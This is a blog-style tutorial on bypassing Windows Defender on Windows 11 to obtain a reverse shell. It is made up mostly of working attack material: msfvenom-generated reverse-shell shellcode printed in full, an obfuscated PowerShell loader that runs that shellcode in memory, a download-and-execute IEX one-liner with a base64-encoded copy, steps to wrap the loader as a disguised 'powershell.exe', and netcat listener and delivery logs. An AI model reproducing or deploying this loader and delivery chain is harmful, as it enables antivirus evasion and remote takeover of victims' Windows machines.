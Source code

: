 ```yaml
---
title: Bypass Windows Defender in Windows 11
tags: [windows, defender]
style: fill
color: secondary
description: Bypass Windows Defender in Windows 11.
---
```

### Using reflection in PowerShell to invoke Win32 API calls from remote PowerShell file invoked by Elixir’s interactive shell.

- Insert shellcode from the buf variable in the output from the following msfvenom payload

```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip addr> LPORT=<port> -i 2 -e cmd/powershell_base64 -f ps1
```

my output:

```bash
┌──(kali㉿kali)-[/tmp/win11]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.10 LPORT=9001 -i 2 -e cmd/powershell_base64 -f ps1
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
Found 1 compatible encoders
Attempting to encode payload with 2 iterations of cmd/powershell_base64
cmd/powershell_base64 succeeded with size 460 (iteration=0)
cmd/powershell_base64 succeeded with size 460 (iteration=1)
cmd/powershell_base64 chosen with final size 460
Payload size: 460 bytes
Final size of ps1 file: 2260 bytes
[Byte[]] $buf = 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0xf,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x67,0x48,0x1,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x1,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x41,0x8b,0xc,0x48,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x41,0x8b,0x4,0x88,0x48,0x1,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x0,0x0,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x1,0x0,0x0,0x49,0x89,0xe5,0x49,0xbc,0x2,0x0,0x23,0x29,0xc0,0xa8,0x1,0xa,0x41,0x54,0x49,0x89,0xe4,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x7,0xff,0xd5,0x4c,0x89,0xea,0x68,0x1,0x1,0x0,0x0,0x59,0x41,0xba,0x29,0x80,0x6b,0x0,0xff,0xd5,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,0xa5,0x74,0x61,0xff,0xd5,0x48,0x81,0xc4,0x40,0x2,0x0,0x0,0x49,0xb8,0x63,0x6d,0x64,0x0,0x0,0x0,0x0,0x0,0x41,0x50,0x41,0x50,0x48,0x89,0xe2,0x57,0x57,0x57,0x4d,0x31,0xc0,0x6a,0xd,0x59,0x41,0x50,0xe2,0xfc,0x66,0xc7,0x44,0x24,0x54,0x1,0x1,0x48,0x8d,0x44,0x24,0x18,0xc6,0x0,0x68,0x48,0x89,0xe6,0x56,0x50,0x41,0x50,0x41,0x50,0x41,0x50,0x49,0xff,0xc0,0x41,0x50,0x49,0xff,0xc8,0x4d,0x89,0xc1,0x4c,0x89,0xc1,0x41,0xba,0x79,0xcc,0x3f,0x86,0xff,0xd5,0x48,0x31,0xd2,0x48,0xff,0xca,0x8b,0xe,0x41,0xba,0x8,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x0,0x59,0x41,0x89,0xda,0xff,0xd5
```

### The PowerShell Script.

- Remove 'your_payload' and paste your payload instead.

```powershell
function potatoes {
Param ($cherries, $pineapple)
$tomatoes = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
$turnips=@()
$tomatoes.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$turnips+=$_}}
return $turnips[0].Invoke($null, @(($tomatoes.GetMethod('GetModuleHandle')).Invoke($null, @($cherries)), $pineapple))
}
function apples {
Param (
[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
[Parameter(Position = 1)] [Type] $delType = [Void]
)
$type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass',[System.MulticastDelegate])
$type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime, Managed')
$type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).SetImplementationFlags('Runtime, Managed')
return $type.CreateType()
}
$cucumbers = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((potatoes kernel32.dll VirtualAlloc), (apples @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)
[Byte[]] $buf = <your_payload>
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $cucumbers, $buf.length)
$parsnips =
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((potatoes kernel32.dll CreateThread), (apples @([IntPtr], [UInt32], [IntPtr], [IntPtr],[UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$cucumbers,[IntPtr]::Zero,0,[IntPtr]::Zero)
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((potatoes kernel32.dll WaitForSingleObject), (apples @([IntPtr], [Int32]) ([Int]))).Invoke($parsnips, 0xFFFFFFFF)
```

- Host the above in a PowerShell and name it as malware.ps1

### Execution

- If you execute the following command in cmd will give you reverse shell.

```powershell
echo IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.1.10:800/malware.ps1') | powershell -noprofile -
```

- Instead of that will encode this command and convert the PowerShell script to executable file.
- encode the command by [CyberChef](https://gchq.github.io/CyberChef/){:target="_blank" rel="noopener"}

![1](../assets/img/bypass+windows+defender/1.png)

```powershell
IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.1.10:800/malware.ps1')
```

- encoded in base64

```powershell
SUVYIChOZXctT2JqZWN0IFN5c3RlbS5OZXQuV2ViQ2xpZW50KS5Eb3dubG9hZFN0cmluZygnaHR0cDovLzE5Mi4xNjguMS4xMDo4MDAvbWFsd2FyZS5wczEnKQ==
```

- Convert PowerShell to exe file.

[PS2EXE](https://ps2exe.azurewebsites.net/){:target="_blank" rel="noopener"}

```powershell
$A =[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("SUVYIChOZXctT2JqZWN0IFN5c3RlbS5OZXQuV2ViQ2xpZW50KS5Eb3dubG9hZFN0cmluZygnaHR0cDovLzE5Mi4xNjguMS4xMDo4MDAvbWFsd2FyZS5wczEnKQ=="))
powershell -noprofile $A
```

![2](../assets/img/bypass+windows+defender/2.png)

- give a file name and click on Create EXE.

- Create a listener.

```bash
┌──(kali㉿kali)-[/tmp/win11]
└─$ rlwrap -r -f . nc -lnvp 9001
Listening on 0.0.0.0 9001
```

### Deliver the file to victim Machin

```powershell
┌──(kali㉿kali)-[/tmp/win11]
└─$ ls -lah
total 28K
drwxr-xr-x  2 kali kali 4.0K Dec  4 11:12 .
drwxrwxrwt 20 root root 4.0K Dec  4 11:09 ..
-rw-r--r--  1 kali kali 4.2K Dec  4 09:12 malware.ps1
-rw-r--r--  1 kali kali  12K Dec  4 11:03 powershell.exe
                                                                                                                                                                                                                                             
┌──(kali㉿kali)-[/tmp/win11]
└─$ python3 -m http.server 800
Serving HTTP on 0.0.0.0 port 800 (http://0.0.0.0:800/) ...
```

- Download the malware to the victim.

![3](../assets/img/bypass+windows+defender/3.png)

- execute the file
- you should see both powershell.exe and malware.ps1 triggered

```bash
┌──(kali㉿kali)-[/tmp/win11]
└─$ python3 -m http.server 800
Serving HTTP on 0.0.0.0 port 800 (http://0.0.0.0:800/) ...
192.168.1.140 - - [04/Dec/2021 11:14:20] "GET /powershell.exe HTTP/1.1" 200 -
192.168.1.140 - - [04/Dec/2021 11:14:48] "GET /malware.ps1 HTTP/1.1" 200 -
```

### Get Revers Sell

![4](../assets/img/bypass+windows+defender/4.png)

This should bypass Windows Defender as of 04-12-2021